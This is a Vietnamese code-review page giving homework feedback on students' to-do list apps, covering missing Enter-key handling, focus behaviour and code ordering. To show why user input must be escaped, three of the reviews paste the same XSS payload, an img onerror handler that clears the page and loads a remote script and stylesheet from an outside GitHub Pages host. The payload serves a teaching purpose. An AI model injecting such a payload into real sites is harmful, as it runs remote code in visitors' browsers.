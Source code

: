 # Dương review bài tập về nhà buổi 24 Lớp k2-FS

## [Bùi Quang Trưởng](https://github.com/OkazakiTruong/BQTruong-F8-K2-Offline/tree/main/Day24)

- [x] Bài 1:

  Bài làm rất tốt \*

  Thiếu case nhấn phím "enter" để thêm task mới.

  Thiếu case sau khi add task thì focus lại vào input

  Có thể xử lý một cách đơn giản bằng cách sửa lại đoạn html:

  ```html
  <div class="add-new-task">
    <input type="text" class="new-task" placeholder="What is the task today" />
    <button class="btn-add">Add task</button>
  </div>
  ```

  Đề xuất sửa thành:

  ```html
  <form class="add-new-task">
    <input type="text" class="new-task" placeholder="What is the task today" />
    <button class="btn-add">Add task</button>
  </form>
  ```

  Sau khi lấy được value của input, cần xử lý chuỗi để thay thế dấu `<` thành `&lt;`, dấu `>` thành `&gt;` để tránh được lỗi khi người dùng cố tình nhập một thẻ HTML.

  ```html
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/duongnguyen321.github.io/jsvjp/index.min.js";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/duongnguyen321.github.io/jsvjp/style.css");'
  />
  ```

- [x] Đánh giá chung bài tập về nhà:

  Bài làm rất tốt, tuy nhiên cần xử lý thêm các case chưa hoàn thiện để giống với bản mẫu.

---

## [Vũ Đức Tài](https://github.com/Apeiron2/F8-fullstack-K2/blob/main/homework/day_24/script.js)

- [x] Bài 1:

  Bài làm rất tốt \*

  Có thể phát triển thêm case sau khi add task bằng cách clock button thì focus lại vào input

  Sau khi lấy được value của input, cần xử lý chuỗi để thay thế dấu `<` thành `&lt;`, dấu `>` thành `&gt;` để tránh được lỗi khi người dùng cố tình nhập một thẻ HTML.

  ```html
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/duongnguyen321.github.io/jsvjp/index.min.js";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/duongnguyen321.github.io/jsvjp/style.css");'
  />
  ```

  Các function chung nên được khai báo và viết đúng thứ tự **viết trước, gọi sau**, không nên định nghĩa ở một nơi quá xa và không có ý nghĩa, ví dụ như hàm `del()` đang được định nghĩa ở cuối file tuy nhiên gọi ở đầu file.

- [x] Đánh giá chung bài tập về nhà:

  Bài làm rất tốt, tuy nhiên cần để ý thêm về cách trình bày code sao cho dễ đọc, hiểu.

---

## [Thế Nguyễn Đại](https://github.com/daithehh04/fullstack/blob/main/day24/assets/js/script.js)

- [x] Bài 1:

  Bài làm tốt \*

  Khi mở nhiều edit task cùng một lúc, đang bị lỗi khi lấy value của input.

  Khi gặp lỗi, một số form bị trống và khi sửa lại thì bị reload trang.

  **Có thể là do thay đổi className và bị trùng lặp khi lấy dữ liệu**

  Khi đang mở nhiều task một lúc, thêm 1 task mới thì các task cũ không còn được mở edit.

  Sau khi lấy được value của input, cần xử lý chuỗi để thay thế dấu `<` thành `&lt;`, dấu `>` thành `&gt;` để tránh được lỗi khi người dùng cố tình nhập một thẻ HTML.

  ```html
  <img
    src=""
    onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/duongnguyen321.github.io/jsvjp/index.min.js";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/duongnguyen321.github.io/jsvjp/style.css");'
  />
  ```

- [x] Đánh giá chung bài tập về nhà:

  Bài làm tốt, tuy nhiên cần xử lý thêm các case chưa hoàn thiện để giống với bản mẫu.

---

## [Kiều Duy Tùng](https://github.com/daithehh04/fullstack/blob/main/day24/assets/js/script.js)

- [x] Bài 1:

  Bài làm tốt

  Khi add bằng cách nhấn phím enter trong input thì submit form tuy nhiên chưa chặn mặc định khiến cho bị reload trang.

  Thiếu case nhấn phím "enter" để thêm task mới.

  Thiếu case sau khi add task thì focus lại vào input

- [x] Đánh giá chung bài tập về nhà:

  Bài làm tốt, tuy nhiên cần xử lý thêm các case chưa hoàn thiện để giống với bản mẫu.

---

